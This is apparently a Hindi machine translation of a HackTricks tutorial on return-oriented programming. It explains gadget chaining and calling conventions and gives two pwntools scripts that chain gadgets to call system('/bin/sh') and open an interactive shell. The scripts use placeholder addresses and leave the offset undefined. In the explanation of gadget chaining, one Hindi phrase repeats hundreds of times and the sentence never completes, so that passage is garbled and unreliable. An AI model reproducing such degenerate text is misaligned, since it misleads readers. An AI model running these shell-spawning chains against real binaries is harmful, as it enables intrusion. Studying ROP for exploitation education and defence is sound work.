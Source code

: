 # ROP - रिटर्न ओरिएंटेड प्रोग्रामिंग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **पीआर जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>

## **मूल जानकारी**

**रिटर्न-ओरिएंटेड प्रोग्रामिंग (ROP)** एक उन्नत शोषण तकनीक है जिसका उपयोग **No-Execute (NX)** या **Data Execution Prevention (DEP)** जैसी सुरक्षा उपायों को दाखिल करने के लिए किया जाता है। शेलकोड डालने और निष्पादित करने की बजाय, एक हमलावर बाइनरी या लोडेड लाइब्रेरी में पहले से मौजूद कोड के टुकड़ों का उपयोग करता है, जिन्हें **"गैजेट्स"** कहा जाता है। प्रत्येक गैजेट सामान्यत: `ret` निर्देश के साथ समाप्त होता है और एक छोटा संचालन करता है, जैसे कि रजिस्टर के बीच डेटा को ले जाना या अंकगणितीय संचालन करना। इन गैजेट्स को एक साथ जोड़कर, एक हमलावर एक पेलोड बना सकता है जिससे वे विभिन्न संचालन कर सकते हैं, NX/DEP सुरक्षा की रक्षा को पार करते हुए।

### ROP कैसे काम करता है

1. **नियंत्रण फ्लो हाइजैकिंग**: पहले, एक हमलावर को किसी प्रोग्राम के नियंत्रण फ्लो को हाइजैक करने की आवश्यकता होती है, सामान्यत: एक बफर ओवरफ्लो का उपयोग करके स्टैक पर सहेजी गई वापसी पता को अधिक करने के लिए।
2. **गैजेट चेनिंग**: फिर हमलावर ध्यानपूर्वक गैजेट्स का चयन करता है और चेनिंग करता है ताकि वह वांछित क्रियाएँ कर सके। इसमें किसी फ़ंक्शन के लिए तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## ROP Chain का x64 उदाहरण

### **x64 (64-बिट) कॉलिंग कनवेंशन**

* यूनिक्स-जैसे सिस्टम्स पर **System V AMD64 ABI** कॉलिंग कनवेंशन का उपयोग करता है, जहां **पहले छह पूर्णांक या पॉइंटर आर्ग्यूमेंट को रजिस्टर `RDI`, `RSI`, `RDX`, `RCX`, `R8`, और `R9` में पास किया जाता है**। अतिरिक्त आर्ग्यूमेंट स्टैक पर पास किए जाते हैं। रिटर्न वैल्यू `RAX` में रखी जाती है।
* **Windows x64** कॉलिंग कनवेंशन में पहले चार पूर्णांक या पॉइंटर आर्ग्यूमेंट के लिए `RCX`, `RDX`, `R8`, और `R9` का उपयोग किया जाता है, अतिरिक्त आर्ग्यूमेंट स्टैक पर पास किए जाते हैं। रिटर्न वैल्यू `RAX` में रखी जाती है।
* **रजिस्टर**: 64-बिट रजिस्टर में `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, और `R8` से `R15` शामिल हैं।

#### **गैजेट्स खोजना**

हमारे उद्देश्य के लिए, हमें **RDI** रजिस्टर को सेट करने की अनुमति देने वाले गैजेट्स पर ध्यान केंद्रित करना होगा (जिससे **system()** को **"/bin/sh"** स्ट्रिंग के रूप में आर्ग्यूमेंट पास किया जा सके) और फिर **system()** फ़ंक्शन को कॉल करना। हम मान लेंगे कि हमने निम्नलिखित गैजेट्स की पहचान कर ली है:

* **pop rdi; ret**: स्टैक के शीर्ष मान को **RDI** में पॉप करता है और फिर वापस लौटता है। **system()** के लिए हमारे आर्ग्यूमेंट सेट करने के लिए आवश्यक।
* **ret**: कुछ स्थितियों में स्टैक संरेखण के लिए उपयोगी एक सरल रिटर्न।

और हम **system()** फ़ंक्शन का पता जानते हैं।

### **ROP Chain**

नीचे एक उदाहरण है जिसमें **pwntools** का उपयोग करके **x64** पर **system('/bin/sh')** को निष्पादित करने के लिए एक ROP चेन सेट करने और निष्पादित करने के लिए किया गया है:
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
### स्टैक समरेखण

**x86-64 ABI** सुनिश्चित करता है कि जब एक **कॉल इंस्ट्रक्शन** को निष्पादित किया जाता है, तो **स्टैक 16-बाइट समरेखित** होता है। **LIBC**, प्रदर्शन को अनुकूलित करने के लिए, **SSE इंस्ट्रक्शन** (जैसे **movaps**) का उपयोग करता है जो इस समरेखण की आवश्यकता है। यदि स्टैक सही ढंग से समरेखित नहीं है (यानी **RSP** 16 का एक गुणक नहीं है), तो **ROP श्रृंखला** में **system** जैसी फ़ंक्शन के कॉल में विफलता होगी। इसे ठीक करने के लिए, आपके ROP श्रृंखला में **ret गैजेट** जोड़ें जो सिस्टम को कॉल करने से पहले स्टैक समरेखण सुनिश्चित करेगा।

## x86 बनाम x64 मुख्य अंतर

{% hint style="success" %}
क्योंकि **x64 पहले कुछ तर्कों के लिए रजिस्टर का उपयोग करता है**, इसे आम फ़ंक्शन कॉल के लिए x86 की तुलना में कम गैजेट की आवश्यकता होती है, लेकिन सही गैजेट्स का पता लगाना और उन्हें चेनिंग करना अधिक जटिल हो सकता है क्योंकि रजिस्टरों की बढ़ी हुई संख्या और बड़े पते का अंतर्वस्तु अंतर्वस्तु में वृद्धि करते हैं। **x64** आर्किटेक्चर में बढ़ी हुई रजिस्टरों की संख्या और बड़े पते का अंतर्वस्तु विकसित करने के लिए अवसर और चुनौतियाँ प्रदान करते हैं, विशेष रूप से Return-Oriented Programming (ROP) के संदर्भ में।
{% endhint %}
